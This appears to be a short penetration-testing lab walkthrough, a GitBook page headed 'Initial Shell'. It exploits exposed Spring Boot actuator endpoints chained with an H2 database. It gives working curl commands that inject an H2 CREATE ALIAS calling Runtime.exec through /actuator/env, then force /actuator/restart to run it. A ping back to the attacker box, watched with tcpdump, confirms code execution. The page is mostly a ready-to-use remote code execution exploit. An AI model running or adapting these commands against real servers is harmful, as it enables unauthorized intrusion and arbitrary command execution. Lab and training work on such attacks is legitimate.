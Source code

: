 <figure><img src="../../.gitbook/assets/image (473).png" alt=""><figcaption></figcaption></figure>

## Initial Shell&#x20;

**Exploit:** [https://spaceraccoon.dev/remote-code-execution-in-three-acts-chaining-exposed-actuators-and-h2-database/](https://spaceraccoon.dev/remote-code-execution-in-three-acts-chaining-exposed-actuators-and-h2-database/)

**Kali #1**

```
tcpdump -i ens5 icmp
```

**Kali #2**

```
curl -X 'POST' -H 'Content-Type: application/json' -H 'x-9ad42dea0356cb04: 172.16.0.21' --data-binary $'{\"name\":\"spring.datasource.hikari.connection-test-query\",\"value\":\"CREATE ALIAS EXEC AS CONCAT(\'String shellexec(String cmd) throws java.io.IOException { java.util.Scanner s = new\',\' java.util.Scanner(Runtime.getRun\',\'time().exec(cmd).getInputStream()); if (s.hasNext()) {return s.next();} throw new IllegalArgumentException(); }\');CALL EXEC(\'ping -c 5 $KALI\');\"}' "https://$VICTIM/actuator/env" -k

curl -X 'POST' -H 'Content-Type: application/json' -H 'x-9ad42dea0356cb04: 172.16.0.21' "https://$VICTIM/actuator/restart" -k
```

<figure><img src="../../.gitbook/assets/image (5) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>
